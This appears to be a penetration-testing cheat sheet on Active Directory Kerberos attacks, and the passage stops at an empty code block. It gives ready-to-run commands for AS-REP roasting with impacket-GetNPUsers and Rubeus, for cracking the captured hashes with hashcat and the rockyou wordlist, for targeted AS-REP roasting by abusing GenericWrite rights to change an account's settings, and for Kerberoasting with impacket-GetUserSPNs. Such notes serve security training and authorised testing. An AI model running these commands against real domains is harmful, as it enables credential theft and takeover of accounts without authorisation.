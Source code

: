GetNPUsers.py - Query/find ASReproastable accounts from the KDC
```
impacket-GetNPUsers domain.local/ -dc-ip <IP> -usersfile userlist.txt
```
or
```
impacket-GetNPUsers -dc-ip 192.168.50.70 -request -outputfile hashes.asreproast corp.com/user1
```

Get plaintext password of user who "Do not require Kerberos preauthentication" using hashcat with option 18200 for AS-REP
```
sudo hashcat -m 18200 hashes.asreproast /usr/share/wordlists/rockyou.txt -r usr/share/hashcat/rules/best64.rule --force
```

### on windows (use Rubeus)
```powershell
#extract AS-REP hash
.\Rubeus.exe asreproast /nowrap

#copy to kali to run hash cat
sudo hashcat -m 18200 hashes.asreproast2 /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force
```

## Targeted AS-REP roasting
### on Kali
- condition: **cannot identify** any AD users with the account option "Do not require Kerberos preauthentication" enabled && notice that we have GenericWrite or GenericAll permissions on another AD user account
- leveraging "GenericWrite or GenericAll" permissions, we can modify the User Account Control value of *any* user to not require Kerberos preauthentication
- Once enabled "Do not require Kerberos preauthentication" of the user, do AS-REP roasting without using previously found password, then **obtain their password** thru AS-REP hashes
- Finally, reset the User Account Control value of the user once we’ve obtained the AS-REP hash

## Kerberoast  [STEAL ticket]
<aside>
https://github.com/skelsec/kerberoast
Kerberoasting is a technique that allows an attacker to steal the KRB_TGS ticket, that is encrypted with RC4, to brute force application services hash to extract its password. 
Kerberoasting requires a valid domain account.
Three step process:
- Find SPN tied to user accounts through LDAP (service accounts)
- Request a TGS for a specific SPN
- Crack the TGS offline to recover the service account's password
</aside>

### On Kali
- impacket-GetUserSPNs
```
impacket-GetUserSPNs <domain>/<user>:<password>// -dc-ip <IP> -request
```
or  
```
GetUserSPNs.py -request -dc-ip <RHOST> <domain>/<user>
```
or
```
impacket-GetUserSPNs -request -dc-ip 192.168.50.70 corp.com/pete
```
or
```
```